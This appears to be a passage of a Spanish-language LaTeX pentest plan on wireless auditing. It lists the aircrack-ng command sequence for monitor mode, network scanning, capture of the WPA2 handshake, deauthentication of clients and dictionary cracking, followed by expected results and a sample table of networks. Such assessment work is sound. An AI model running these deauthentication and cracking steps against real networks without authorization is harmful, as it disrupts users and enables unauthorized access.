 \documentclass[a4paper, 11pt]{article}
\begin{document}
Este handshake posteriormente será explotado mediante fuerza bruta para evaluar la robustez de la contraseña.

\begin{lstlisting}[language=bash, style=terminalstyle, caption=Captura WPA2 con Aircrack-ng]
    # Configuración de la antena en modo monitor
$ sudo airmon-ng start wlan0
    # Escaneo de redes WiFi disponibles
$ sudo airodump-ng wlan0mon
    # Selección de la red objetivo y captura del handshake
$ sudo airodump-ng --bssid BSSID --channel CHANNEL -w capture wlan0mon
    # Desautenticación de clientes para capturar el handshake en paralelo con airodump-ng
$ sudo aireplay-ng -0 9 -a BSSID -c CLIENT_MAC wlan0mon
    # Análisis del handshake capturado
$ sudo aircrack-ng -w /path/to/wordlist.txt capture-01.cap
\end{lstlisting}

\subsubsection*{Resultados esperados}

Se espera obtener los siguientes resultados clave tras la ejecución de las herramientas de análisis de redes inalámbricas:

\begin{itemize}
    \item \textbf{Inventario detallado de redes detectadas} (visibles y ocultas), incluyendo información como el \textit{SSID}, canal, \textit{BSSID}, tipo de cifrado y potencia de señal.
    
    \item \textbf{Captura del handshake WPA/WPA2}, que servirá para evaluar posteriormente la robustez de la contraseña mediante técnicas de fuerza bruta o diccionario, y así estimar la complejidad real de explotación.
\end{itemize}

\vspace{1em}

\begin{table}[H]
\centering
\renewcommand{\arraystretch}{1.2}
\begin{tabular}{|l|c|l|c|c|}
\hline
\textbf{SSID} & \textbf{Canal} & \textbf{BSSID} & \textbf{Cifrado} & \textbf{Potencia (dBm)} \\
\hline
WLAN-Casa     & 6      & 00:14:22:01:23:45 & WPA2 & -45 \\
Red Oculta    & 11     & A1:B2:C3:D4:E5:F6 & WPA2 & -60 \\
Biblioteca    & 1      & 12:34:56:78:9A:BC & WEP      & -72 \\
INVITADOS     & 3      & DE:AD:BE:EF:00:01 & Abierta  & -50 \\
\hline
\end{tabular}
\caption{Ejemplo de redes inalámbricas detectadas con Airodump-ng}
\label{tab:redes_detectadas}
\end{table}
\end{document}

